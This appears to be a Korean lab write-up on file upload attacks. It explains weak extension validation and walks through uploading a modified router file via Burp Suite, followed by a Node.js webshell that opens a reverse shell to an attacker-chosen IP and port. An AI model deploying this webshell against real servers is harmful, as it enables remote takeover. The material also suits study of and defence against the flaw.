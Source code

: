 # 파일 업로드 공격
---
## 1. 파일 업로드 취약점이란 ?
---
+ 파일 업로드 취약점은 웹 서버가 제공하는 파일 업로드 기능을 이용하여 확장자 검증 미흡으로 서버에 악의적인 파일이 업로드가 가능한 취약점이다. 
+ 공격자는 서버에서 실행될 수 있는 파일을 업로드하여 공격자가 원하는 기능을 동작하게 한다. 적절한 검증 없이 파일 업로드 기능을 제공할 때 발생하는 취약점이므로 확장자에 대한 검증을 적용해야 한다.

---
## 2. 공격방법
---
파일 다운로드 공격에서 다운받은 filedown.js 파일의 소스코드를 분석하여 아래와 같은 라우터 기능을 추가한다.
```js
router.use('/attack', require('../../../upload/attack.js'));
```
수정된 filedown.js를 Burpsuite를 통해 업로드 경로를 수정하여 업로드한다.

![수정된filedown.js업로드](https://user-images.githubusercontent.com/115529661/200773381-29c9c606-064a-4ed5-b177-f6b2c1e58fda.jpg)

filedown.js가 업로드 되는 것이 확인 되었으니 attack.js를 만들어 업로드를 진행해본다.
```js
var express = require("express");
var router = express.Router();

router.get("/", function(req, res) {
	var net = require("net"),
		cp = require("child_process"),
		sh = cp.spawn("/bin/sh",[]);     // 서버 OS가 리눅스 일 때
		sh = cp.spawn("cmd",[]);         // 서버 OS가 윈도우 일 때
	var client = new net.Socket();
	
	client.connect(req.query.port,req.query.ip,function(){
		client.pipe(sh.stdin);
		sh.stdout.pipe(client);
		sh.stderr.pipe(client);
	});
	return /a/;
});

module.exports = router;
```
![attack.js업로드](https://user-images.githubusercontent.com/115529661/200774037-1414f3da-e507-492f-ae38-5279ee5e923f.jpg)

attack.js가 정상적으로 업로드 된 것을 확인해 볼 수 있다.

업로드가 되었으니 웹쉘을 실행해본다.

![공격결과](https://user-images.githubusercontent.com/115529661/200774615-56c47ede-f23b-4de1-b6af-1f040d15fd3b.jpg)
웹쉘 실행결과 정상적으로 실행된다는 것을 확인할 수 있고, js파일 업로드와 업로드 된 파일이 실행되는 것으로 업로드 공격을 진행할 수 있다. 